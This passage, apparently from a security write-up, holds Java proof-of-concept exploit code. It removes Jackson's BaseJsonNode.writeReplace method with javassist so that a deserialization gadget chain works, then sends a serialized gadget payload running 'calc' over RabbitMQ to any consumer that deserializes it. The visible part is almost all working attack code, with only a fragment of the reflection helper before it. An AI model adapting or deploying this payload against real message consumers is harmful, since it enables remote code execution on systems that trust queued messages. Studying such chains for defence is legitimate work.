 ```java
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

```java
package com.demo.producer.controller;

import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.springframework.amqp.rabbit.core.RabbitTemplate;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;

import javax.annotation.Resource;

@RestController
public class SendController {
    static {
        try {
            CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
            ctClass.removeMethod(writeReplace);
            ctClass.toClass();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    @Resource
    private RabbitTemplate rabbitTemplate;

    @GetMapping("/send")
    public String send() throws Exception {
        rabbitTemplate.convertAndSend("myQueue", Gadget.getPayload("calc"));
        return "ok";
    }
}
```
